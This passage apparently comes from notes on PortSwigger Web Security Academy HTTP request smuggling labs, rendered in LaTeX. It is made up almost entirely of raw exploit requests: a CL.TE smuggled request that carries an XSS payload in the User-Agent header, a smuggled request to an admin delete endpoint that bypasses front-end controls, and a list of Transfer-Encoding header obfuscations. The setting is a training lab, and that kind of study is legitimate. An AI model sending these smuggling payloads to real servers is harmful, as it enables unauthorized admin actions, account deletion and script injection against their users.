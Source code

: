 \documentclass[
  letterpaper,
]{article}
\begin{document}
\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
POST / HTTP/1.1
Host: 0a5800fa04974f1bc15f0dab004400ef.web-security-academy.net
Cookie: session=3MNdX218m6gxqn82BLl4dxpx3eCLNd8i
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 113
tRANSFER-ENCODING: chunked

3
x=y
0

GET /post?postId=10 HTTP/1.1
User-Agent: kek"><img src=123 onerror=alert(1)>
Foo: x
\end{Verbatim}

\subsubsection{7. Exploiting HTTP request smuggling to bypass front-end
security controls, CL.TE
vulnerability}\label{7-exploiting-http-request-smuggling-to-bypass-front-end-security-controls-clte-vulnerability}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
POST / HTTP/1.1
Host: 0a6f008e04ed8481c035778000dc0063.web-security-academy.net
Cookie: session=QjB6AgSHTuzJSZCHdc0al2SJSOtdc5bh
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 147
tRANSFER-ENCODING: chunked

3
x=y
0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
\end{Verbatim}

\subsection{Some Useful Bypasses}\label{some-useful-bypasses-1}

\begin{Verbatim}[breaklines,breakanywhere,fontsize=\small]
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked  
Transfer-Encoding: x  

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked

Transfer-encoding: identity
Transfer-encoding: cow
\end{Verbatim}
\end{document}
